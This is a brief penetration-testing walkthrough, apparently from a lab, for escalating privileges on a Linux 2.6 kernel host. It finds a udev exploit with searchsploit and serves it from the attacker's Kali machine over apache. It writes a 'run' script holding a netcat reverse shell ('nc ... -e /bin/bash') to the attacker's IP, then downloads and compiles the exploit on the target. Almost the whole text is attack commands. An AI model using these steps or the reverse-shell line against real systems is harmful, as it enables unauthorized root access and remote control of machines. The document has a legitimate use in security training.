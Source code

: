 ```

### Walkthrough 

```
## STEP 1: Reverse shell (connected to target)
## In Reverse shell find out the kernel version 
uname -a
lsb_release -a

## STEP 2: On kali 
## Open 2nd kali terminal and search exploits 
searchsploit privilege | grep -i linux | grep -i kernel | grep 2.6

## find out source code c
less /usr/share/exploitdb/exploits/linux/local/8572.c

## Start apache server 
systemctl start apache2 

## Symbolic link to all the exploits 
ln -s /usr/share/exploitdb/exploits/linux/local/ /var/www/html/

## Create a run file we will need later 
vi /var/www/html/run
## ip will be the ip of our kali-server 

##!/bin/bash
nc 192.168.10.169 12345 -e /bin/bash

## STEP 3: Reverse shell (connected to target) 
## Download the files 
cd /tmp
wget http://192.168.10.169/run
wget http://192.168.10.169/local/8572.c
## compiling exploit in reverse shell
gcc -o exploit 8572.c
ls -l

## Finding the pid 
cat /proc/net/netlink
ps aux | grep udev

